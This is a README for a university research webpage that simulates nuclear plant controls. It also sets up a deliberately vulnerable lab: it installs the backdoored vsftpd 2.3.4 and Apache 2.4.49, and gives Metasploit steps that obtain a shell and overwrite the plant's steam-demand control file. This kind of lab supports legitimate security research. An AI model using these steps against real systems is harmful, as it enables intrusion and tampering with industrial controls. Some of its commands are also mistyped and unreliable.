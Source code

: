 # NuclearWebpage
This is a webpage for PCAG research under DR. Cole and Dr. Ibrahim

## Baseline values for control files
* feedwater - 540
* coolant pump - 8333
* steam demand - 540
* tavg - 547 
* control rods - 0

## Webpage setup
* `git clone https://github.com/JaredBen28/NuclearWebpage.git`
* Move all the files to the apache folder using `mv ./* /[target directory]`
* Change all the .txt and .csv files to be under the ownership of ubuntu not root `sudo chmod ubuntu *.txt` and `sudo chmod ubuntu *.csv`
  * This is so the model can be ran as a normal user not root or sudo
* Before running the simulation
* Next we need to run the simulation and api for the webpage
```
pip -install -r ./python/requirements.txt
python ./python/api.py
python ./python/useableSimulation.py
```
* Open the main.js file and change the ip address on line 27 to the  ip of the api
* Everything should now be up and running

### Notes:
* If you want to run the api or model detached add an `&` to the end of the command
* When using a built-in apache installed from `apt` place all the files within `var/www/html`
* If you installed another version of apache, for a exploit, place the files with in the `htdocs` file or change the directory location within the `httd.conf` file

### Quickly change from repo
Because we used `mv` not `cp` when moving our files from the repo to webpage folder it makes our lives easy when adding any changes. First we need to pull the changes.

```
git pull
```

Next remove all the files that were changed from the webpage directory.

Then move the changed files to webpage directory. 

Ex: If you changed all the js files use `mv *.js /[target dir]` to move all of them at once. Wildcards are very helpful

---

## Vulnerable ftp service 
### Installation
```
git clone https://github.com/nikdubois/vsftpd-2.3.4-infected.git
sudo apt-get install build-essential
```

`nano Makefile` and change the Link to `LINK = -Wl,-s,-lcrypt`

```
make 
useradd nobody
mkdir /usr/share/empty
sudo cp vsftpd /usr/local/sbin/vsftpd
sudo cp vsftpd.8 /usr/local/man/man8
sudo cp vsftpd.conf.5 /usr/local/man/man5
sudo cp vsftpd.conf /etc

cd /
/usr/local/sbin/vsftpd &

mkdir /var/ftp/
useradd -d /var/ftp ftp
chown root:root /var/ftp
chmod og-w /var/ftp
```

`nano /etc/vsftp.conf` and change local_enable to `local_enable=YES`

### Exploitation
On another machine, preferably kali, open up a new terminal window
```
msfconsole
```

Once metasploit is running
```
search vsf
use 0
set RHOST [target ip addr]
exploit
```
At this point a reverse shell should have been created
```
cd home/ubuntu/Desktop
echo [new value] > steamDemand.txt
```
Warning do not use the `>>` pipe, it will append the new value in the steam demand file breaking the model

## Vulnerable apache service
You will need to download httd 2.4.49 from http://archive.apache.org/dist/httpd/ use the provided readMe for further instructions

I would recommend following the instructions from https://geekflare.com/apache-installation-troubleshooting/

If you need to install libpcre3 just run
```
sudo apt-get install libpcre3-dev libpcre3
```

Before installing a new version I would recommend removing the current apache on the machine
```
sudo apt remove apache2.*
sudo apt autoremove
sudo apt purge apache2
```